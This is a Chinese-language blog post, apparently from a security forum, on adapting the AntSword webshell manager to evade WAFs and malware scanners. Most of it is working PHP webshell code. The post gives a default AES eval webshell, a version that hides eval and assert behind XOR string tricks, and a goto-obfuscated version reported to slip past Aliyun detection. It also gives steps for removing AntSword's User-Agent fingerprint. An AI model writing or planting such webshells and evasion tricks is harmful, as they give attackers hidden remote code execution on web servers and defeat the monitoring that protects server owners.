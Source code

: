 AntSword
========

0x00 前言：
--------

为什么会有改造蚁剑的想法，之前看到有做冰蝎的流量加密，来看到绕过waf，改造一些弱特征，通过流量转换，跳过密钥交互。  
但是，冰蝎需要反编译去改造源码，再进行修复bug，也比较复杂。而AntSword相对于冰蝎来说，不限制webshell，即一句话也可以进行连接，还可以自定义编码器和解码器，可以很容易让流量做到混淆。

0x01 蚁剑介绍及其改编：
--------------

关于蚁剑的介绍，这里就不多说了，一个连接webshell的管理器，使用前端nodejs进行编码。AntSword给我最大的好处是可以连接一句话木马，而且可以自定义编码器和解码器。这让我们就有了很多种webshell的变换。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-0a82e563e491ece7552fc6dc1018d193cd60730f.png)  
但是，蚁剑默认的编码器和菜刀都是一样的，这里用burpsuite来进行抓包看下流量。

#### 蚁剑默认流量

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-54e087b0fde3151bf8ae5a93d07a8e1ec83a142c.png)  
返回来的是默认蚁剑的默认流量，所以的话，这里就基本上过不去态势感知和waf，所以很容易想到了编码器和解码器的选择，可以进行流量的改造来进行waf的绕过，先选用最默认的base64进行测试。

#### 默认的base64编码器

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-93748b3aff08e85b4d193217806d45c1357e891d.png)  
但是看到了使用base64编码之后是有eval字样的，这样的话，肯定被态势感知和全流量一体机来进行特征的抓取，肯定会报威胁。

#### 去github上找到蚁剑的编码器和对应的解码器

github地址:（[编码器](https://github.com/AntSwordProject/AwesomeEncoder/tree/master/php)）  
这里下载默认的aes-128的默认流量。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-4601855137ce11ccf52639c6a1fb8c3059d51f76.png)  
默认编码器的webshell

```php
<?php
@session_start();
$pwd='ant';
$key=@substr(str_pad(session_id(),16,'a'),0,16);
@eval(openssl_decrypt(base64_decode($_POST[$pwd]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING));
?>
```

##### 默认webshell讲解：

```php
这里打开session_start，然后截取Cookie中的PHPSESSION的16位。
然后进行aes加密，密码为pwd
```

再D盾，河马和阿里云进行扫描：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-4e3ba6ff5a86202b06cefe1f2fdc5612bb001ae3.png)  
河马没有查出来，可能是比较弱  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-411a48641a7f57721e7aa3c782e923bbb9472587.png)  
阿里云直接报恶意

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-7f98d5afba2f4dc643dffa139212c77be3c26d97.png)

#### 初步修改后的webshell：

```php
<?php
@session_start();
error_reporting(E_ALL^E_NOTICE^E_WARNING);
function decode($key,$data){
$data_new = '';
for($i=0;$i<=strlen($data);$i++){
$b=$data[$i]^$key;
$data_new = $data_new.urldecode($b);
}
define('ass',$data_new[0].strrev($data_new)[2].strrev($data_new)[2].$data_new[11].strrev($data_new)[4].strrev($data_new)[0]);
define('ev',$data_new[11].strrev($data_new)[8].$data_new[0].strrev($data_new)[6].'($result)');
return $data_new;
}
function decrypto($key,$data){
$data = base64_decode($data);
$result = openssl_decrypt($data, 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);
decode('\\','=:=om>n?o8h9i:j;k*d0e.l/m(');
$ass=ass;
$ass(ev);
}
class run{
    public $data;
    public function __construct(){
$this->data = '#````````#'.$_POST[1]."#`#`#";
$this->data = $this->data."123456";
}
}
$key=@substr(str_pad(session_id(),16,'a'),0,16);
$run = new run();
decrypto($key,$run->data);
?>
```

这里能过去D盾，但是无法绕过阿里云查杀。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-eff03d60d976593936e0ad0e2b92352adc7afcd9.png)  
所以这里还需要进行代码混淆。（这也是之后webshell免杀常常用到的）

#### 混淆之后的webshell：

这里提供php在线加密的站

```php
https://enphp.djunny.com/
```

这里加密之后生成webshell。如下：

```php
 goto Zc4oD; UJih6: function decrypto($key, $data) { goto LBrqg; P6YrI: $ass = ass; goto aR6yN; svn0O: $result = openssl_decrypt($data, "\x41\x45\x53\x2d\x31\x32\70\55\105\x43\x42", $key, OPENSSL_RAW_DATA | OPENSSL_ZERO_PADDING); goto ATbMy; LBrqg: $data = base64_decode($data); goto svn0O; ATbMy: decode("\x5c", "\75\72\x3d\157\x6d\x3e\x6e\x3f\x6f\x38\x68\71\151\x3a\x6a\x3b\x6b\x2a\x64\x30\x65\56\x6c\57\155\50"); goto P6YrI; aR6yN: $ass(ev); goto k6RVH; k6RVH: } goto DGZMG; WvjFi: ini_set("\144\151\x73\160\x6c\x61\x79\x5f\145\162\x72\x6f\162\x73", "\117\146\x66"); goto Wguwk; DGZMG: class run { public $data; public function __construct() { $this->data = "\43\140\x60\140\140\x60\140\x60\x60\43" . $_POST[1] . "\x23\140\x23\140\43"; } } goto Berxy; UUYvT: $run = new run(); goto apKNY; Berxy: $key = @substr(str_pad(session_id(), 16, "\141"), 0, 16); goto UUYvT; Zc4oD: @session_start(); goto WvjFi; Wguwk: function decode($key, $data) { goto LGJR3; Ef77S: $i = 0; goto KvZGg; rSTXM: define("\141\x73\x73", $data_new[0] . strrev($data_new)[2] . strrev($data_new)[2] . $data_new[11] . strrev($data_new)[4] . strrev($data_new)[0]); goto TQ6r4; Tbglr: return $data_new; goto FsE2S; tm2qt: goto I39OV; goto eF7jG; AqTZZ: $data_new = $data_new . urldecode($b); goto FriN_; TQ6r4: define("\x65\166", $data_new[11] . strrev($data_new)[8] . $data_new[0] . strrev($data_new)[6] . "\50\x24\x72\145\163\165\154\x74\51"); goto Tbglr; FriN_: bLexq: goto gITff; eF7jG: RuTl1: goto rSTXM; gITff: $i++; goto tm2qt; KdSCg: if (!($i <= strlen($data))) { goto RuTl1; } goto d9N4J; d9N4J: $b = $data[$i] ^ $key; goto AqTZZ; LGJR3: $data_new = ''; goto Ef77S; KvZGg: I39OV: goto KdSCg; FsE2S: } goto UJih6; apKNY: decrypto($key, $run->data);
```

经过加密之后，可以发现，进行了goto的混淆，所以这里就达到了代码混淆。因为之前绕过了D盾和河马，这里直接去阿里云查杀。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8c29bea699a223eec48b3e45e05088f66d0790fc.png)  
已经成功绕过阿里云查杀。用burpsuite抓下流量特征。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-77560ad7feadea54e04b7b70b81036171ff24a78.png)  
从流量加密来分析的话，已经能绕过态势感知和全流量分析机。

### 蚁剑UA头的修改：

#### 在burp的数据包中能清楚的看到蚁剑的特征

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-3034ef2a238786efbb09f2f1dea96a082dad330f.png)

#### 在目录/modules/request.js文件中修改UA头

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-a9fa6d53837e759bb5cc34c21bdab23b3328795b.png)

#### /modules/update.js文件修改

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-ec910b44405624877aa3e24d3bd95d0138c63d1d.png)

0x03 总结：
========

关于免杀来说，通常是进行代码加密混淆，特征码替换或者分割传输等情况。之前有想写过shellcode免杀，但是还没有过windows defender，所以就推迟一段时间来写。感谢各位拜读。